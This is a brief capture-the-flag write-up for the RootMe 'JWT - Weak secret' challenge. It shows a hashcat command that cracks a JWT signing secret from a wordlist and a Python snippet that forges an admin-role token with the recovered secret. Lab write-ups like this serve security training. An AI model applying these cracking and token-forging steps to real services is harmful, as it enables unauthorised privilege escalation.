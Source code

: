 # JWT weak secret

[RootMe challege: JWT - Weak secret](https://www.root-me.org/en/Challenges/Web-Server/JWT-Weak-secret): This API with its /hello endpoint (accessible with GET) seems rather welcoming at first glance but is actually trying to play a trick on you. Recover its most valuable secrets!

----

Argh:

![RootMe JWT weak secret](/_static/images/rootme-jwt3a.png)

```text
┌──(kali㉿kali)-[~/Downloads]
└─$ hashcat -a 0 -m 16500 jwt jwt.secrets.list
hashcat (v6.2.6) starting
```

![RootMe JWT weak secret](/_static/images/rootme-jwt3b.png)

```text
# http://challenge01.root-me.org/web-serveur/ch59

import jwt

secret = "secret"
hacked_token = jwt.encode({"role": "admin"}, secret, algorithm="HS512")
print(f"Hacked token:{hacked_token}")
```

etcetera.

